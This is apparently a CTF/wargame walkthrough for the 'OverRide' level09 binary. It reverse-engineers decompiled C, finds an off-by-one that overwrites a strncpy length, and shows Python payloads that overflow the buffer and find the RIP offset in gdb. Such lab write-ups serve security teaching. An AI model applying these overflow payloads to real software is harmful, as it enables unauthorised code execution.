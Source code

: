 `rbp` is at `0x7fffffffe5d0` and `rsp` is at `0x7fffffffe510`, which is 192 bytes apart.

`RAX` gets the address of `RSP`, and 140 bytes later, zeros are added to 40 bytes
of (%rax) to (%rax)+0x28 using some `movq` instructions.

Finally, the value `140` is added to `RBP-12`.

So, **there is actually a memory space of 180 bytes followed by an integer indicating a size of 140**.

Let's take a closer look at the `set_username()` and `set_msg()` functions.

In `set_username`, we find this loop that explains why there was no newline character with more 
than 41 characters in the initial input tests:

```C
fgets(s, 128, stdin);
for (i = 0; i <= 40 && s[i]; ++i)
    *(_BYTE *)(buffer + i + 140) = s[i];
  return printf(">: Welcome, %s", (const char *)(buffer + 140));
```

`fgets()` retrieves 128 characters from stdin and stores them in `s`.

Then, the `for` loop copies 41 characters into the buffer, starting from `buffer+140`, which is 
the location of the 40 bytes that were set to 0.

However, in the `set_msg()` function, we can see the use of `strncpy()` from the message to the buffer, 
with the memory space (cast to int) located at `buffer+180`. So, one extra character was retrieved previously:

```C
fgets(s, 1024, stdin);
  return strncpy((char *)buffer, s, *(int *)(buffer + 180));
```

This means that the 41st character likely modifies the variable used for the strncpy size, 
at `RBP-0xc`, which could allow overflowing the buffer and thus overwriting RIP in `handle_msg()` !

Let's quickly test it:
```bash
level09@OverRide:~$ python -c 'print "A" * 40 + "\xff" + "A" * 300' | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
```
It works!

After some trials, we easily find the offset for RIP, which is 286:
```bash
level09@OverRide:~$ python -c 'print "run\n" + "A" * 40 + "\xff" + "A" * 287' | gdb ./level09 
...
(gdb) Starting program: /home/users/level09/level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000a41 in ?? ()
(gdb) quit
A debugging session is active.

	Inferior 1 [process 2401] will be killed.
```
